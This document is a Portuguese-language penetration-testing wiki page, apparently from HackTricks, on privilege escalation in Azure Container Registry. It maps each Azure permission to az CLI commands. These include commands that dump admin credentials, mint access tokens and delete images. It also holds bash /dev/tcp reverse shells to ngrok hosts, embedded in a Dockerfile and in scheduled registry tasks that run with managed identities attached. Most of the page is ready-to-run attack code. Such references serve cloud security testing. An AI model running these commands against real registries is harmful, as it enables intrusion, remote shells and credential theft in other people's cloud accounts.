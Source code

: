 # Az - Azure Container Registry Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Registry

Para mais informações, consulte:

{{#ref}}
../az-services/az-container-registry.md
{{#endref}}

### `Microsoft.ContainerRegistry/registries/listCredentials/action`

Esta permissão permite que o usuário liste as credenciais de administrador do ACR. Isso é útil para **obter acesso total** ao registro.
```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>/listCredentials?api-version=2023-11-01-preview"
```
Caso as credenciais de administrador não estejam habilitadas, você também precisará da permissão `Microsoft.ContainerRegistry/registries/write` para habilitá-las com:
```bash
az rest --method PATCH --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>?api-version=2023-11-01-preview" --body '{"properties": {"adminUserEnabled": true}}'
```
### `Microsoft.ContainerRegistry/registries/tokens/write`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`

Essas permissões permitem que o usuário **crie um novo token** com senhas para acessar o registro.

Para usar o `az cli` para gerá-lo como no exemplo a seguir, você também precisará das permissões `Microsoft.ContainerRegistry/registries/read`, `Microsoft.ContainerRegistry/registries/scopeMaps/read`, `Microsoft.ContainerRegistry/registries/tokens/operationStatuses/read`, `Microsoft.ContainerRegistry/registries/tokens/read`
```bash
az acr token create \
--registry <registry-name> \
--name <token-name> \
--scope-map _repositories_admin
```
### `Microsoft.ContainerRegistry/registries/listBuildSourceUploadUrl/action`, `Microsoft.ContainerRegistry/registries/scheduleRun/action`, `Microsoft.ContainerRegistry/registries/runs/listLogSasUrl/action`

Essas permissões permitem que o usuário **construa e execute uma imagem** no registro. Isso pode ser usado para **executar código** no contêiner.

>[!WARNING]
> No entanto, a imagem será executada em um **ambiente isolado** e **sem acesso ao serviço de metadados**. Isso significa que o contêiner não terá acesso aos **metadados da instância**, então isso não é realmente útil para escalar privilégios.
```bash
# Build
echo 'FROM ubuntu:latest\nRUN bash -c "bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/17585 0>&1"\nCMD ["/bin/bash", "-c", "bash -i >& /dev/tcp//2.tcp.eu.ngrok.io/17585 0>&1"]' > Dockerfile
az acr run --registry 12345TestingRegistry --cmd '$Registry/rev/shell:v1:v1' /dev/null
```
### `Microsoft.ContainerRegistry/registries/tasks/write`

Esta é a permissão principal que permite criar e atualizar uma tarefa no registro. Isso pode ser usado para **executar um código dentro de um contêiner com uma identidade gerenciada anexada a ele** no contêiner.

Este é o exemplo de como executar um shell reverso em um contêiner com a **identidade gerenciada do sistema** anexada a ele:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task \
--image rev/shell:v1 \
--file ./Dockerfile \
--context https://github.com/carlospolop/Docker-rev.git \
--assign-identity \
--commit-trigger-enabled false \
--schedule "*/1 * * * *"
```
Outra maneira de obter um RCE a partir de uma tarefa sem usar um repositório externo é usar o comando `az acr task create` com a flag `--cmd`. Isso permitirá que você execute um comando no contêiner. Por exemplo, você pode executar um shell reverso com o seguinte comando:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task-cmd \
--image rev/shell2:v1 \
--cmd 'bash -c "bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/15508 0>&1"' \
--schedule "*/1 * * * *" \
--context /dev/null \
--commit-trigger-enabled false \
--assign-identity
```
> [!TIP]
> Observe que para atribuir a identidade gerenciada pelo sistema, você não precisa de nenhuma permissão especial, embora ela deva ter sido habilitada anteriormente no registro e ter recebido algumas permissões para ser útil.

Para atribuir uma **identidade gerenciada pelo usuário também**, você precisaria da permissão `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action` para fazer:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task \
--image rev/shell:v1 \
--file ./Dockerfile \
--context https://github.com/carlospolop/Docker-rev.git \
--assign-identity \[system\] "/subscriptions/<subscription-id>>/resourcegroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<mi-name>" \
--commit-trigger-enabled false \
--schedule "*/1 * * * *"
```
Para **atualizar** o repositório de uma tarefa existente, você pode fazer:
```bash
az acr task update \
--registry <registry-name> \
--name reverse-shell-task \
--context https://github.com/your-user/your-repo.git
```
### `Microsoft.ContainerRegistry/registries/importImage/action`

Com esta permissão, é possível **importar uma imagem para o registro do azure**, mesmo sem ter a imagem localmente. No entanto, observe que você **não pode importar uma imagem com uma tag** que já existe no registro.
```bash
# Push with az cli
az acr import \
--name <registry-name> \
--source mcr.microsoft.com/acr/connected-registry:0.8.0 # Example of a repo to import
```
Para **remover ou deletar uma tag de imagem específica** do registro, você pode usar o seguinte comando. No entanto, observe que você precisará de um usuário ou token com **permissões suficientes** para fazê-lo:
```bash
az acr repository untag \
--name <registry-name> \
--image <image-name>:<tag>

az acr repository delete \
--name <registry-name> \
--image <image-name>:<tag>
```
{{#include ../../../banners/hacktricks-training.md}}
